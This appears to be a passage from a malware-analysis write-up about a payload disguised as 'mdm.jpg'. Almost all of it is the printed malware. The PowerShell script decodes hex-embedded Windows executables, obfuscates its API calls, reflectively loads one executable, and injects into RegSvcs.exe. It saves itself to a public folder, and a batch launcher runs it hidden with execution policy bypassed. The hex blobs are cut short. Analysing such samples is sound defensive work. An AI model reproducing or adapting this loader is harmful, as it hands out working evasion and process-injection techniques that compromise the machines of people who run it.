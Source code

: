 After extracting these files, let inspect the main payload `mdm.jpg`

```shell
$Content = @'


$hexString_bbb = "4D_5A_90_00_03_00_00_00_04_00_00_00_FF_FF_00_00_B8_00_00_00_00_00_00_00_40_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_80_00_00_00_0E_1F_BA_0E_00_B4_09_CD_21_B8_01_4C_CD_21_54_68_69_73_20_70_72_6F_67_72_61_6D_20_63_61_6E_6E_6F_74_20_62_65_20_72_75_6E_20_69_6E_20_44_4F_53_20_6D_6F_64_65_2E_0D_0D_0A_24_00_00_00_00_00_00_00_50_45_00_00_4C_01_03_00_FC_C6_3F_65_00_00_00_00_00_00_00_00_E0_00_02_01_0B_01_08_00_00_F8_00_00_00_0A_00_00_00_00_00_00_2E_16_01_00_00_20_00_00_00_20_01_00_00_00_40_00_00_20_00_00_00_02_00_00_04_00_00_00_00_00_00_00_04_00_00_00_00_00_00_00_00_60_01_00_00_02_00_00_00_00_00_00_02_00_60_85_00_00_10_00_00_10_00_00_00_00_10_00_00_10_00_00_00_00_00_00_10_00_00_00_00_00_00_00_00_00_00_00_DC_15_01_00_4F_00_00_00_00_20_01_00_FF_07_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_40_01_00_0C_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_20_00_00_08_00_00_00_00_00_00_00_00_00_00_00_08_20_00_00_48_00_00_00_00_00_00_00_00_00_00_00_2E_74_65_78_74_00_00_00_34_F6_00_00_00_20_00_00_00_F8_00_00_00_02_00_00_00_00_00_00_00_00_00_00_00_00_00_00_20_00_00_60_2E_72_73_72_63_00_00_00_FF_07_00_00_00_20_01_00_00_08_00_00_00_FA_00_00_00_00_00_00_00_00_00_00_00_00_00_00_40_00_00_40_2E_72_65_6C_6F_63_00_00_0C_00_00_00_00_40_01_00_00_02_00_00_00_02_01_00_00_00_00_..."
$hexString_pe = "4D_5A_90_00_03_00_00_00_04_00_00_00_FF_FF_00_00_B8_00_00_00_00_00_00_00_40_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_80_00_00_00_0E_1F_BA_0E_00_B4_09_CD_21_B8_01_4C_CD_21_54_68_69_73_20_70_72_6F_67_72_61_6D_20_63_61_6E_6E_6F_74_20_62_65_20_72_75_6E_20_69_6E_20_44_4F_53_20_6D_6F_64_65_2E_0D_0D_0A_24_00_00_00_00_00_00_00_50_45_00_00_4C_01_03_00_3F_32_26_90_00_00_00_00_00_00_00_00_E0_00_0E_21_0B_01_30_00_00_22_01_00_00_06_00_00_00_00_00_00_4E_40_01_00_00_20_00_00_00_60_01_00_00_00_40_00_00_20_00_00_00_02_00_00_04_00_00_00_00_00_00_00_06_00_00_00_00_00_00_00_00_A0_01_00_00_02_00_00_00_00_00_00_03_00_60_85_00_00_10_00_00_10_00_00_00_00_10_00_00_10_00_00_00_00_00_00_10_00_00_00_00_00_00_00_00_00_00_00_00_40_01_00_4B_00_00_00_00_60_01_00_64_03_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_80_01_00_0C_00_00_00_BE_3F_01_00_1C_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_..."

Sleep 5
[Byte[]] $NKbb = $hexString_bbb -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
[Byte[]] $pe = $hexString_pe -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }

Sleep 5
$HM = 'L###############o################a#d' -replace '#', ''
$Fu = [Reflection.Assembly]::$HM($pe)


$NK = $Fu.GetType('N#ew#PE#2.P#E'-replace  '#', '')
$MZ = $NK.GetMethod('Execute')
$NA = 'C:\W#######indow############s\Mi####cr'-replace  '#', ''
$AC = $NA + 'osof#####t.NET\Fra###mework\v4.0.303###19\R##egSvc#####s.exe'-replace  '#', ''
$VA = @($AC, $NKbb)

$CM = 'In#################vo################ke'-replace '#', ''
$EY = $MZ.$CM($null, [object[]] $VA)


'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.ps1", $Content)


$Content = @'
@e%Conted%%Conted% off
set "ps=powershell.exe"
set "Contedms=-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass"
set "cmd=C:\Users\Public\Conted.ps1"
%ps% %Contedms% -Command "& '%cmd%'"
exit /b

```